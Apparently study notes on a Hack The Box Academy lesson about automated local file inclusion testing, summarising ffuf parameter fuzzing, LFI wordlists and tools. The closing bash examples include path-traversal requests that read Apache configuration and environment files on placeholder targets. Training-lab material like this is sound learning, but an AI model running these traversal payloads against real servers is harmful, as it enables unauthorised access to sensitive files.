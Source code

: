 
[**Key Takeaways:**](https://academy.hackthebox.com/module/23/section/1494)

- **Importance of Manual Testing:**
    - Emphasizes that automated scanning is not a replacement for manual testing.
    - Custom payloads and techniques are often required for complex vulnerabilities.
    - Bypassing WAFs and firewalls requires in-depth understanding.
- **Fuzzing Parameters:**
    - Using `ffuf` to discover hidden GET/POST parameters.
    - Highlighting that hidden parameters may be less secure.
    - Providing a link to common LFI parameters.
- **LFI Wordlists:**
    - Using wordlists like `LFI-Jhaddix.txt` to automate LFI payload testing.
    - Demonstrating how to use `ffuf` with LFI wordlists.
    - Good explanation of how to verify the wordlists results.
- **Fuzzing Server Files:**
    - Fuzzing for server webroot paths, configuration files, and log files.
    - Providing links to Linux and Windows webroot wordlists.
    - Demonstrating how to find server configurations and log paths.
    - Good explanation of how to follow file paths, and find needed information.
- **LFI Tools:**
    - Mentioning popular LFI tools like LFISuite, LFiFreak, and liffy.
    - Acknowledging that many tools are outdated and rely on Python 2.
    - Good advice to test the tools, to see their accuracy.

**Additional Considerations:**

- **Tool Limitations:**
    - Automated tools may miss complex vulnerabilities or bypasses.
    - False positives and false negatives are common.
    - Tools need to be updated to be effective.
- **Wordlist Selection:**
    - Choosing appropriate wordlists is crucial for effective scanning.
    - Custom wordlists may be needed for specific applications.
- **WAF Evasion:**
    - Automated tools may not be effective against advanced WAFs.
    - Manual testing and payload crafting are often required.
- **Ethical Considerations:**
    - Automated scanning should only be performed on systems with explicit permission.
    - Avoid causing denial-of-service (DoS) attacks.
- **Scripting:**
    - Writing custom scripts can be a very effective way to automate the scanning process.
    - Python is a very useful language for this task.
- **Regular Expressions:**
    - When dealing with large amounts of data from log files, or configuration files, regular expressions are very useful.



```bash
# Discovering hidden parameters
ffuf -w /opt/useful/seclists/Discovery/Web-Content/burp-parameter-names.txt:FUZZ \
    -u 'http://<SERVER_IP>:<PORT>/index.php?FUZZ=value' -fs 2287  

# Finding LFI vulnerabilities using wordlists
ffuf -w /opt/useful/seclists/Fuzzing/LFI/LFI-Jhaddix.txt:FUZZ \
    -u 'http://<SERVER_IP>:<PORT>/index.php?language=FUZZ' -fs 2287  

# Searching for default web root directories on Linux
ffuf -w /opt/useful/seclists/Discovery/Web-Content/default-web-root-directory-linux.txt:FUZZ \
    -u 'http://<SERVER_IP>:<PORT>/index.php?language=../../../../FUZZ/index.php' -fs 2287  

# Using a custom LFI wordlist
ffuf -w ./LFI-WordList-Linux:FUZZ \
    -u 'http://<SERVER_IP>:<PORT>/index.php?language=../../../../FUZZ' -fs 2287  
```

#### **curl (HTTP Request Tool)**

A command-line tool for transferring data with URLs, commonly used for making HTTP requests.

##### **Examples:**

```bash
# Accessing a sensitive configuration file
curl http://<SERVER_IP>:<PORT>/index.php?language=../../../../etc/apache2/apache2.conf  

# Extracting environment variables from the server
curl http://<SERVER_IP>:<PORT>/index.php?language=../../../../etc/apache2/envvars  
```

---

### **Key Points:**

- The primary tools used are **ffuf** for fuzzing and **curl** for making HTTP requests.
- This guide focuses on **Linux-based** web servers and file inclusion vulnerabilities.